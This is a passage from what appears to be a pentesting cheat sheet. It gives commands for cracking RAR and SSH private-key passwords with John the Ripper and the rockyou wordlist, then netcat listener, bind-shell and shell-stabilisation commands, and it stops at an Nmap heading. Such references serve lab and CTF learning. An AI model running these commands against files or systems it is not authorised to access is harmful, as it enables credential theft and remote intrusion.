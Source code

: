 - ### Crack Rar File Password
rar2john [rar file] > [output file]
###### Example :
```
rar2john secure.rar > secure-rar.txt
```
#### ❒ After get the secure-rar.txt now crack the file
```
john --wordlist=/usr/share/wordlists/rockyou.txt secure-rar.txt
```

- ### Crack SSH Key Password
ssh2john [id_rsa private key file] > [output file]]
###### Example :
```
ssh2john id_rsa.rsa > id_rsa.txt
```
#### ❒ After get the id_rsa.txt now crack the file
```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.txt
```



---------------------------------------------------------------------------

## Netcat
- ###  Netcat Listener
nc -lvnp <port-number>
###### Example :
```
nc -lvnp 4444
```
- ###  Bind Shells
nc <target-ip> <chosen-port>
###### Example :
```
nc 10.10.10.11 4444
```
- ###  Netcat Stabilisation
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
export TERM=xterm
```
press ctrl+z to background the shell
```
stty raw -echo; fg
```
## Nmap
### 𝚰. Enumeration And Information Gathering
